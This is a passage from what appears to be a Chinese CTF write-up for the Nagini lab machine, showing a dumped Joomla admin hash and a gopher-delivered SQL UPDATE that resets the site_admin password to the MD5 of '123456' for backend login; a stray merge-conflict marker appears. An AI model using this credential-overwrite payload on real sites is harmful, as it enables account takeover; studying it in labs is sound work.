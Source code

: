 通过查看源代码以及结合 def (用于定义表的列) 定义每个列的含义和获取的查询数据可以得到这样一个数据：

-   用户：site\_admin
-   邮箱：site\_admin@nagini.hogwarts
-   密码：$2y$10$cmQ.akn2au104AhR4.YJBOC5W13gyV21D/bkoTmbWWqFWjzEW7vay

<<<<<<< HEAD
[![](assets/1710898772-fa1c59032f7a62b78517c34acaff6d6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173139-547507a6-e053-1.png)  
如果我们直接破解这个密文不仅时间长，而且还有可能破不出来，既然通过 gopher 可以直接操作数据库，那么我们便可以直接覆盖这个 site\_admin 密码，由于 mysql 支持 md5 加密，所以我们先生成一个 md5 的加密密码

```plain
echo -n "123456" | md5sum
```

[![](assets/1710898772-59600795a7c680faa1ad9c2741ec2656.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173207-64b3547e-e053-1.png)  
随后我们直接构建如下 payload

```plain
use joomla; update joomla_users SET password='e10adc3949ba59abbe56e057f20f883e' WHERE username='site_admin';
```

[![](assets/1710898772-4e0b2560cfbf41d25d408dc87beaf7a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173235-756c6832-e053-1.png)  
从上面的回显结果可以看到这里成功更新了一条记录，说明我们的密码已经成功更改，随后我们就可以使用 site\_admin/123456 直接登录 Joomla 后台了
